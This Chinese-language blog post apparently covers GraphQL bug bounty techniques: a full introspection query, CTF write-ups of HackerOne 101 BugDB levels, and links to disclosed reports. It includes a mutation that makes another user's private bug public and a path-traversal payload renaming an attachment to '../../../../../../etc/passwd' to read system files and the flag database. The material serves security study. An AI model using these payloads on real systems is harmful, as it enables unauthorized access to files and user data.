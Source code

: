 ```yaml
---
layout: post
title: BugBounty-GraphQL
---
```


* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

+ 不正确的权限配置GraphQL接口
+ GraphQL注入，工具[GraphMap](https://github.com/swisskyrepo/GraphQLmap)

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息

![](../images/bugDB_v1_1.png)

使用Query嵌套查询查询

![](../images/bugDB_v1_2.png)

### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

常规的，将`query`方法列出

![](../images/bugDB_v3_1.png)

观察内省，发现多了两个`Mutation`的操作

分别是上传文件和修改文件名称

上传文件

![](../images/bugDB_v3_2.png)

得到的文件名是一串随即数

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "a13f22a17a0b6c38ec973e42dc80b608",
  "bug": {
    "id": "QnVnczox"
  }
```

修改文件名


![](../images/bugDB_v3_3.png)

修改文件名后得到的文件名成为可控值

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "test1.txt",
  "bug": {
    "id": "QnVnczox"
  }
```

到这里我就卡住了，然后参考了别人的wp

首先hackerone给出的提示为

+ What new functionality was added?
+ Filenames are always interesting
+ How do you access attachments? Hint: not via GraphQL

通过路由*/attachments/1*可以访问到之前上传的文件

![](../images/bugDB_v3_4.png)

事实上这有些类似我们的软连接的处理，在文件名中存在路径穿越的情况

```
mutation modifyAttachment{
  modifyAttachment(id: 1, filename: "../../../../../../etc/passwd"){
    ok
  }
}
```

当看了`main.py`和`model.py`的源码后，发现有这么一个东西

```python
from sqlalchemy import create_engine from sqlalchemy.ext.declarative import declarative_base from sqlalchemy.orm import relationship, scoped_session, sessionmaker from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String engine = create_engine('sqlite:///level18.db', convert_unicode=True) db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) Base = declarative_base() Base.query = db_session.query_property() class User(Base): __tablename__ = 'users' id = Column(Integer, primary_key=True) username = Column(String(255)) password = Column(String(255)) bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') class Bug(Base): __tablename__ = 'bugs' id = Column(Integer, primary_key=True) reporter_id = Column(Integer, ForeignKey('users.id')) reporter = relationship(User, primaryjoin=reporter_id == User.id) text = Column(Text(65536)) private = Column(Boolean()) attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') class Attachment(Base): __tablename__ = 'attachments' id = Column(Integer, primary_key=True) bug_id = Column(Integer, ForeignKey('bugs.id')) bug = relationship(Bug, primaryjoin=bug_id == Bug.id) filename = Column(String(255))
```

其中有个*sqlite:///level18.db*，用同样的方法，可以将flag读出

![](../images/bugDB_v3_5.png)

## 漏洞报告

+ [https://hackerone.com/reports/885539]([twitter]Private list members disclosure via GraphQL)graphql接口的泄漏与侧信道攻击结合，判断List ID是否存在以获取private list ID。
+ [https://hackerone.com/reports/980511]([shopify]A staff member with no permissions can edit Store Customer Email)graphql权限配置不严导致用户信息修改

## Template/Fuzzer

+ nuclei包含的很多可能的路径，事实上类似api接口路径，每个企业都有不同的命名习惯[nuclei-templates/technologies/graphql.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/5a3a1134f94765694aea1484f0a98e4795f550d6/technologies/graphql.yaml)

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
+ [GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)
